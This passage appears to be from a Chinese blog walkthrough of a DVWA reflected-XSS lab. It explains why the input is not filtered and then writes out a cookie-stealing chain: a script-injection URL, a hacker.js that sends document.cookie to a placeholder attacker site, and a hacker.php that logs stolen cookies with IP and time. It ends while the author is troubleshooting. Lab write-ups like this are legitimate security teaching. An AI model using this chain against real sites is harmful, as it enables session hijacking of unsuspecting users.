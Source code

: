 上述代码中将文本框输入的字符串当作`'name'`字段，并且只过滤了`'name'`字段为空的情况，因此随意一个字符串都可以输入到变量中。

但是，php 自使用`echo '[字符串]'`命令是会自动解析运行`js`代码的，因此这也就为注入提供了可乘之机。

我们可以注入以下的代码来详细反馈到页面上：

```javascript
<script>alert("你吃了么？")</script>
```

![image-20240515181655565](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405151816670.png)

但是距离执行到`hack`程度还有段距离，我们想要通过执行当前的命令拿到用户cookie。

在实验题解中，我们会调用`<script src="【黑客网站地址】" /></script>`语句进行访问其页面下某个页面的操作，而此地址刚好是如下目录地址（部署网站文件下）：

![image-20240516162221443](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405161622579.png)

调用上述`js`在该目录下构造一个代码文件`js`，使其能够访问到页面带来的`document.cookie`附加于页面属性上，并且发送给黑客。

```javascript
//hacker.js
var img = new Image();
img.src="【黑客网站】/hacker.php?x=" + document.cookie;	//访问此js就对hacker进行响应
document.body.append(img);
```

与此同时，只要运行一个后端`php`代码就能拿到`cookie`：

```php
//hacker.php
<?php
$cookie = $_GET['x'];
$ip = getenv ('REMOTE_ADDR');
$time = date('Y-m-d g:i:s');
$fp = fopen("cookie.txt","a");
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n");
fclose($fp);
?>
```

当然上述操作只需要访问链接`http://dvwa/vulnerabilities/xss_r/?name=<script src="【黑客网站】/hacker.js" /></script>`就行（对html页面的输入框输入访问黑客网站脚本）

不过，我并没有找到`php`书写下来的`cookie.txt`，所以开始复盘：

+ 首先查看`js`与`php`脚本是否有问题：

![image-20240516172954248](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405161729456.png)

可以看到，它拿到了`cookie`命令，因此就要检查`php`的保存命令

+ php中的`$fp = fopen("cookie.txt","a");`说明其以追加方式保存`cookie`，那么我尝试自己建立一个`cookie.txt`文件，但是其标识为**可读**，于是我尝试将`gnome-web`使用命令行赋予管理员权限：

```sh
$ root@VM:/usr/bin#  gnome-www-browser 
```
